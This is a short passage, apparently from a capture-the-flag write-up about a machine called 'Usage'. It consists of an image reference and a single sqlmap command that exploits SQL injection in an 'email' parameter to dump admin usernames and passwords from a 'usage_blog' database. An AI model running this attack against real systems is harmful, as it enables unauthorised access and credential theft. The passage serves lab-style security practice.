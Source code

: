 ![Image](/assets/img/post/usage/Untitled6.png)

```bash
sqlmap -r -request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump --threads 10
```

